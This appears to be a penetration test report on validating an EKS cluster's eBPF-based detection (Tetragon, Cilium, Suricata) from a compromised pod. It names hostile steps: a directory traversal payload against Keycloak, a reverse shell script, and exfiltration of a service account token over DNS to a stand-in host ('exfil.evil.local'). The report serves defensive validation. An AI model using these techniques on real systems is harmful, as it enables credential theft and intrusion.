



# Overview

We successfully executed a comprehensive, 4-phase penetration test against the production `bc-prd` EKS cluster (`10.30.0.0/16`) to validate the zero-trust architecture and the eBPF-powered Security Operations Center (Wazuh, Cilium, Falco, Tetragon, Suricata). 

The test was conducted autonomously from a compromised worker pod (`pentest-netshoot`) residing in the `nomad-oasis` namespace, simulating an attacker who has gained initial access to a container.

# Execution & Findings

## Phase 1: Noisy Reconnaissance
- **Action:** We launched massive ICMP sweeps and full TCP port scans (`nmap -sT`) targeting the Kubernetes API and CoreDNS.
- **Result:** **Blocked.** Cilium’s `policyEnforcementMode=always` instantly dropped the unauthorized egress traffic. 
- **Validation:** Hubble UI successfully visualized tens of thousands of `DROP` verdicts in real-time, confirming the network firewall is watertight.

## Phase 2: Exploitation & Lateral Movement
- **Action:** We fired malformed HTTP payloads (Directory Traversal `../../../etc/passwd` and SQL Injections) against the internal Keycloak pod (`10-30-10-42`).
- **Result:** **Allowed by Network Policy, Caught by eBPF.** 
- **Crucial Architecture Discovery:** The traffic was allowed because intra-namespace communication is permitted by the `nomad-keycloak-netpol`. However, **Suricata (Network IDS) missed the payload.** Why? Because the EKS cluster uses Cilium with **WireGuard transparent encryption**. The traffic was encrypted before it hit the physical network interface (`ens5`) where Suricata sniffs.
- **The eBPF Save:** Despite the encryption, **Tetragon (eBPF Runtime Security)** caught the execution of `/usr/bin/curl` directly inside the kernel *before* encryption occurred, firing **Rule 100704 (Network Tool Executed)**.

## Phase 3: Runtime Evasion & C2 Deployment
- **Action:** We dropped a malicious reverse shell bash script (`/tmp/reverse_shell.sh`) and executed it to simulate a Command & Control beacon.
- **Result:** **Caught.** 
- **Validation:** Tetragon hooked into `sys_enter_execve`, detected the unauthorized `/bin/bash` shell spawning, and fired **Rule 100702 (Shell/Interpreter Spawned in Container)**.

## Phase 4: Data Exfiltration
- **Action:** We read the sensitive Kubernetes Service Account token and attempted to exfiltrate it over DNS using `dig` (`dig [TOKEN].exfil.evil.local`).
- **Result:** **Caught.**
- **Validation:** Tetragon detected the execution of the `dig` binary and immediately fired **Rule 100704 (Network Tool Executed)**. 

# Conclusion: The Value of eBPF

This pentest proved exactly why legacy Network IDSs (like Suricata) are insufficient in modern Zero-Trust meshes. WireGuard encryption blinded the network sensor, but **Tetragon (eBPF)** provided complete visibility by monitoring the kernel system calls directly. The architecture is validated and production-ready.

# Remediation Applied During Testing
During the test, we also successfully debugged and patched the Wazuh Agent DaemonSet. The agents were failing to register with human-readable names due to a conflicting `agent-auth` flag. We updated the DaemonSet to cleanly wipe old `client.keys`, explicitly register the `NODE_NAME`, and seamlessly connect to the manager. All agents are now fully synced and human-readable.
